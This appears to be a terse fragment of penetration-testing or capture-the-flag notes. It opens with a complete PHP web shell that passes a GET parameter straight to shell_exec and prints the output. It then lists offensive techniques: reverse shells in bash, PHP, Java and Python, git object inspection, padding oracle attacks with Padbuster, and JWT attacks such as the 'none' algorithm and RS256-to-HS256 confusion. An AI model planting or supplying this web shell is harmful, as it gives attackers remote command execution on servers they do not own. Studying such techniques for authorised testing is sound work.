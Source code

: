 ```
<?php
$output = shell_exec($_GET['cm']);
echo "<pre>$output</pre>"
?>
```
- reverse shell , bash , php  , java , python

- git cat-file (-t|p) $(cat master)
- CTI TTPs
- Padbuster ( padding oracle ) 
- JWT : HS256 , RS256 , none , weak secret , change algorithm (Pk to HS256 --raw openssl header included ) 
